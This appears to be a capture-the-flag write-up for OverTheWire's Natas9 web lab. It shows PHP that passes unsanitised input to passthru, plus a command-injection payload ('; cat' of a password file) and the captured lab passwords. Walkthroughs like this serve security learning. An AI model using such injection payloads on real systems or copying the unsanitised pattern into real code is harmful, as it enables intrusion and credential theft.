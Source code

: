 # CTF Writeup - **OverTheWire Natas7 - Natas8**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas8 - Natas9
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 3-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use inspect element to troubleshoot and find the flag.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas9
Password: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
URL:      http://natas9.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for Input word.  But we dont know anything about it, So lets input some random value and check it out. 

```bash
Find words containing: a
# Submit
# African
# Africans
# Allah
# Allah's
# American
# Americanism
# Americanism's
# Americanisms
```

It shows us all the words that have `a` in it. Since, we dont know how it works and how to get the password. Lets view the source code of the it.

```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
# <script>var wechallinfo = { "level": "natas9", "pass": "<censored>" };</script></head>
# <body>
# <h1>natas9</h1>
# <div id="content">
# <form>
# Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
# </form>
# Output:
# <pre>
# <?
# $key = "";
# if(array_key_exists("needle", $_REQUEST)) {
#     $key = $_REQUEST["needle"];
# }
# if($key != "") {
#     passthru("grep -i $key dictionary.txt");
# }
# ?>
# </pre>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```

We can see that there is a form which takes our input, and when we submit the input there is a php code which gets executed on the input, Where the code takes our input which is tagged with `needle` in the html and is copied to the `key` variable. Then it check if the key is not NULL value, if not then it does a grep of the keyword that we have given on a text file. This is interesting for us because we know that the password is in `/etc/natas_webpass/natas10` we can input another cli to be executed instead of grep as the input is not checked here as shown below. 
 
```bash
; cat /etc/natas_webpass/natas10; 
# t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```

So what we did here is that we know that if we want to execute multiple commands in linux cli we can use `;` which is considered as the end of the command. We can use the same here to end the grep and do another command. So what essentially happens is that the php code is replacing our input `; cat /etc/natas_webpass/natas10 ;` in the command. The final command looks like `grep -i ; cat /etc/natas_webpass/natas10; dictionary.txt`. Here is grep is not fully finished so it is ignored adn the dictionary.txt is also ignored as there is no command for the file, only the middle part is executed. We got the password for the next level.


## Flag

**Flag:** t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

---

## Lessons Learned

It was a good challenge where i learned about how i can give proper inputs to exploit bugs.
